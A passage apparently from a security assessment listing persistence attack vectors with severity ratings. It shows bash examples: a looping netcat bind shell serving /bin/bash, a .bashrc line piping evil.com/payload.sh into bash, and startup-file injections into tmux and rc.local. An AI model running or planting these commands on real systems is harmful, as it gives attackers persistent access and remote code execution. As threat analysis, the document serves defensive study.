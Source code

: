 **Technical Details:**
The `nohup` usage creates persistent background processes that survive session termination:

**Exploitation Pathways:**
1. **Daemonized Backdoor:**
   ```bash
   # Create persistent background process
   nohup bash -c "while true; do nc -l -p 4444 -e /bin/bash; done" > /dev/null 2>&1 &
   ```

2. **Process Tree Hiding:**
   ```bash
   # Create nested background processes
   nohup bash -c "nohup bash -c 'malicious_payload' &" &
   ```

3. **Resource Monitoring Evasion:**
   ```bash
   # Create low-resource persistent process
   nohup bash -c "while true; do sleep 3600; malicious_payload; done" &
   ```

**Attack Prerequisites:**
- Ability to execute nohup commands
- Understanding of process management
- Knowledge of system monitoring tools

**Impact:**
- Persistent system access
- Evasion of process monitoring
- Continuous system compromise
- Difficult forensic analysis

### 5.3 Configuration File Modification

**Attack Vector ID:** AV-PM-003  
**Severity:** MEDIUM  
**CVSS Score:** 6.4 (AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:N)  
**Exploitability:** Moderate

**Technical Details:**
Configuration files can be modified to establish persistence:

**Exploitation Pathways:**
1. **Shell Profile Modification:**
   ```bash
   # Add malicious code to shell profiles
   echo 'curl -s evil.com/payload.sh | bash' >> ~/.bashrc
   ```

2. **Tmux Configuration Injection:**
   ```bash
   # Modify tmux configuration
   echo "run-shell 'malicious_command'" >> ~/.tmux.conf
   ```

3. **System Service Modification:**
   ```bash
   # Modify system startup scripts
   echo 'malicious_payload' >> /etc/rc.local
   ```
